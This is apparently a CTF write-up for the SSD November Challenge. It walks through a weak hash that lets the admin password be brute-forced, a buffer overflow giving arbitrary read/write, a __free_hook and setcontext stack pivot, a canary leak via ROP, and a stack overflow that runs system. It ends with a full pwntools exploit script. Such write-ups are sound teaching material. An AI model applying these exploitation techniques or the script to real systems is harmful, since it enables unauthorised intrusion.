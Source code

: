 # SSD November Challenge (by Robert Chen - @NotDeGhost)
The first vulnerability was improper hashing.

```c
while (i < size) {
  tmp_value._0_1_ = input[i];
  if ((int)(char)tmp_value * 10 < 0x20) {
    tmp_value._0_1_ = (char)tmp_value % '\x05';
  }
  else {
    tmp_value._0_1_ = (char)(((int)(char)tmp_value * 0x124343) % 0xef);
  }
  input[i] = (char)tmp_value;
  i = i + 1;
}
```

Upon seeing this, I was immediately suspicious. Most hash functions, even handrolled ones, have both addition and multiplication? I didn't really understand what was going on, but analysis through GDB showed that the values tended towards very high values (ie `0xfc, 0xfd, 0xfe, 0xff, 0x00`).

Because the hash is done per character, I handpicked a few characters with distinct hash values after running them through the max repetition of hashes. From here, we can easily brute force the 4 byte long admin password.
```python
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
```

After getting access to the admin interface, I used a buffer overflow in the "Set Header" functionality of the admin panel. Specifically, this allowed us to overwrite a `char*` and then read into it, effectively giving an arbitrary read/write primitive.

I chose to overwrite `__free_hook` with a `mov rsp, [rdi + 0xa0]` gadget located at `setcontext+53`. This allowed me to pivot the stack to the next chunk I freed. Unfortunately, seccomp means that we'll also need to pwn the forked server process.

After using a rop chain to leak the stack and thus stack canary, I was ready to send a poisoned message to the server. To do this, I used the lack of checks on the passed in `pass_len` in `create_user`.

```c
  memcpy(pass_old,password,(long)pass_len);
```

This copies an attacker controlled value into a fixed 64 byte buffer on the stack. Because we had previously leaked the canary, it was easy to perform a buffer overflow attack. Luckily, the name of users is stored in binary space, meaning I could put the argument to system at a known location by hiding it in the name.

```python
p.send(
  p16(1) + p16(0)
  + p16(0x110)
  + "cat /home/ctf/flag\x00".ljust(64, "A")
  + "B" * 0x48 + p64(cleak) + p64(0)
  + p64(prdi) + p64(0x605d50)
  + p64(leak + 283552)
)
```

# Script
```python
from pwn import *

p = remote("localhost", 2323)
#p = process("./friend_net")

p.sendlineafter("speed):", "99")

def bash():
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
          p.sendlineafter(">", "1")
          p.sendlineafter(":", "admin")
          sleep(0.01)
          p.sendlineafter(":", chrs[i1] + chrs[i2] + chrs[i3] + chrs[i4])

          p.recvuntil("with user id ")

          val = int(p.recvline())
          if val != -1:
            print("Logged in")
            return

  print("FAILED")
  exit(1)

p.sendlineafter(">", "1")
p.sendlineafter(":", "reg")
sleep(0.01)
p.sendlineafter(":", "ABC123")

p.sendlineafter(">", "4")
p.sendlineafter("ID:", "14")

bash()

p.sendlineafter(">", "8")
p.sendlineafter(">", "1")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")

stdout = 6312160
p.sendafter("Data:", "A" * 512 + p64(stdout)[:6])

p.sendlineafter(">", "2")
p.recvuntil("version ")

leak = u64(p.recvline(keepends=False).ljust(8, "\x00")) - 3954208
print(hex(leak))

p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")
# freehook
p.sendafter("Data:", "A" * 512 + p64(leak + 3958696)[:6])

setcontext = 293712
p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendafter("No.:", p64(leak + setcontext + 53))
sleep(0.01)
p.sendafter("Data:", "A" * 512 + p64(0x605320)[:6])

p.sendlineafter(">", "5")
p.sendlineafter(":", "AAAA")

p.sendlineafter(">", "4")
p.recvuntil("version ")
hleak = u64(p.recvline(keepends=False).ljust(8, "\x00")) + 0x0000000001d5e280 - 0x0000000001d5e070    
print(hex(hleak))

ret = 0x402b8a
prax = leak + 0x0003a8b0    
prdi = leak + 0x0008e1b7    
prsi = leak + 0x00124f9b      
prdx = leak + 0x00001b92   
prsp = leak + 0x00054d9b      
sys = leak  + 0x00122258 

print(hex(sys))

buff = 0x606100
fstack = hleak + 0x3000

environ = 3960632
p.sendlineafter(">", "5")
p.sendlineafter(":", "A" * 0xa0 + p64(hleak + 0xa0 + 0x10) + p64(ret) 
                                + p64(prax) + p64(1) + p64(prdi) + p64(1)
                                + p64(prsi) + p64(leak + environ)
                                + p64(prdx) + p64(8) + p64(sys) + p64(prax) + p64(0)
                                + p64(prdi) + p64(0) + p64(prsi) + p64(fstack)
                                + p64(prdx) + p64(0x800) + p64(sys) 
                                + p64(prsp) + p64(fstack - 8)
)

p.sendlineafter(">", "6")
p.sendlineafter(":", "1")

sleep(0.5)
ui.pause()

p.recv(1)

sleak = ""
for i in range(8):
  sleak += p.recv(1)
  
sleak = u64(sleak)
print(hex(sleak))

p.send(
  p64(prax) + p64(1) + p64(prdi) + p64(1) + p64(prsi) + p64(sleak - 0x100)
  + p64(prdx) + p64(8) + p64(sys)  + p64(prax) + p64(0) + p64(prdi) + p64(0)
  + p64(prsi) + p64(buff) + p64(prdx) + p64(0x200) + p64(sys)
  + p64(prax) + p64(1) + p64(prdi) + p64(8) + p64(prsi) + p64(buff) + p64(prdx)
  + p64(0x200) + p64(sys) + p64(0x4016db)
)

sleep(0.01)

cleak = ""
for i in range(8):
  cleak += p.recv(1)
  
cleak = u64(cleak)
print(hex(cleak))

p.send(
  p16(1) + p16(0) + p16(0x110) + "cat /home/ctf/flag\x00".ljust(64, "A") + 
  "B" * 0x48 + p64(cleak) + p64(0) + p64(prdi) + p64(0x605d50) + p64(leak + 283552)
)

sleep(0.01)
p.interactive()
```
